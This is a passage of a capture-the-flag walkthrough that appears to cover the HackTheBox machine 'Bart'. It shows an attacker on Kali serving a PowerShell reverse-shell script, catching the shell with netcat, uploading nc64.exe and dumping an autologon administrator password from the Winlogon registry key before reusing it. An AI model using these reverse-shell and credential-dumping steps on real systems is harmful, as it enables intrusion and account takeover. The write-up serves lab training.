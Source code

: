 ```

root@kali# python -m SimpleHTTPServer 8083
Serving HTTP on 0.0.0.0 port 8083 ...
10.10.10.81 - - [28/Apr/2018 16:09:12] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

```

root@kali# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 49673
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\internal-01\log>whoami
nt authority\iusr

```

## Privesc: iusr -> Administrator

### Creds in Winlogon

Walking through some [standard Windows privesc checks](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/), I eventually found default credentials stored in the registry for autologon. When I queried that out of the nishang shell, I didn’t find the password. See section at end about trouble shooting this.

To get it to work, uploaded nc64.exe, and got a fresh 64bit shell, and I was able to dump credentials from the registry:

```

C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb

```

### Using Credentials to Get administrator Access

There a several different ways to use these credentials to get access to administrator files (such as the flag). I’ll show two, `run_as` and `net use`:

#### powershell “run as”

Use the password to create a credential that can be passed to `Invoke-Command`. In this case, `shell.ps1` is another `Invoke-PowerShellTcp.ps1` with the port changed to 5555:
